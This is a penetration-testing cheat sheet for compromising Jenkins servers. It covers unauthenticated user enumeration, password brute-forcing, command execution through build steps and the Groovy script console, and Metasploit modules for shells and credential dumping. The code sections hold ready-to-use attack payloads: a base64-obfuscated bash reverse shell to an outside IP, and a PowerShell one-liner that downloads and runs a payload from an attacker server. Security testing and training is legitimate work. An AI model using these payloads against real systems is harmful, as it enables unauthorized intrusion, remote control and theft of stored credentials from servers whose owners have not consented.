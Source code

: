 # Jenkins

## Enumeration

In order to search for interesting Jenkins pages without authentication like \(_/people_ or _/asynchPeople_, this lists the current users\) you can use:

```text
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```text
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path or _**/securityRealm/user/admin/search/index?q=**_ for **usernames**.

You may e ale to get the Jenkins version from the path _**/oops**_ or _**/error**_

![](../../.gitbook/assets/image%20%28422%29.png)

## Bruteforce

**Jekins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used \(even **usernames as passwords** or **reverse** usernames as passwords\).

```text
msf> use auxiliary/scanner/http/jenkins_login
```

## Exploiting Vulnerabilities

{% embed url="https://github.com/gquere/pwn\_jenkins" caption="" %}

## Code Execution

There are 3 ways to get **code execution** with Jenkins.

### **Create a new project**

This method is very noisy because you have to create a hole new project \(obviously this will only work if you user is allowed to create a new project\).

1. Create a new project \(Freestyle project\)
2. Inside **Build** section set **Execute shell** and paste a powershell Empire launcher or a meterpreter powershell \(can be obtained using _unicorn_\). Start the payload with _PowerShell.exe_ instead using _powershell._
3. Click **Build now**

\*\*\*\*

Go to the projects and check **if you can configure any** of them \(look for the "Configure button"\):

![](../../.gitbook/assets/image%20%28228%29.png)

Or **try to access to the path** _**/configure**_ in each project \(example: /_me/my-views/view/all/job/Project0/configure_\).

If you are allowed to configure the project you can **make it execute commands when a build is successful**:

![](../../.gitbook/assets/image%20%2887%29.png)

Click on **Save** and **build** the project and your **command will be executed**.  
If you are not executing a reverse shell but a simple command you can **see the output of the command inside the output of the build**.

### **Execute Groovy script**

Best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **linux** you can do: **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ \(triple double quotes\) to execute the payload.

**Another useful groovy script** is \(replace \[INSERT COMMAND\]\):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in linux

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF exploit

You can use MSF to get a reverse shell:

```text
msf> use exploit/multi/http/jenkins_script_console
```

## POST

Dump Jenkins credentials using:

```text
msf> post/multi/gather/jenkins_gather
```

## References

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/" caption="" %}

{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" caption="" %}

